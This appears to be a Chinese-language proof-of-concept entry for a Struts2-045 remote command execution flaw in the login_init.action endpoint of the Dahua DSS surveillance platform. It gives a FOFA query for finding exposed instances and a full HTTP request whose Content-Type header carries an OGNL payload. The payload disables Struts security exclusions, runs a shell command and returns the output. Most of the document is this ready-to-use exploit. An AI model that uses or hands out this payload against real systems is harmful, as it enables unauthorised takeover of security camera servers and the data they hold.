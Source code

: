 ## 大华DSS城市安防监控平台login_init.action接口存在Struct2-045命令执行漏洞

大华DSS安防监控系统平台采用Apache Struts2作为网站应用框架。/portal/login_init.action接口存在远程命令执行漏洞，攻击者可以通过在上传文件时修改HTTP请求标头中的Content Type值来触发该漏洞，然后执行该漏洞。系统命令以获取服务器权限。

## fofa

```
app="dahua-DSS"
```

## poc

```
POST /portal/login_init.action HTTP/1.1
Host: 
Connection: close
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_333
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 0

```

![image-20240604085526465](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406040855573.png)
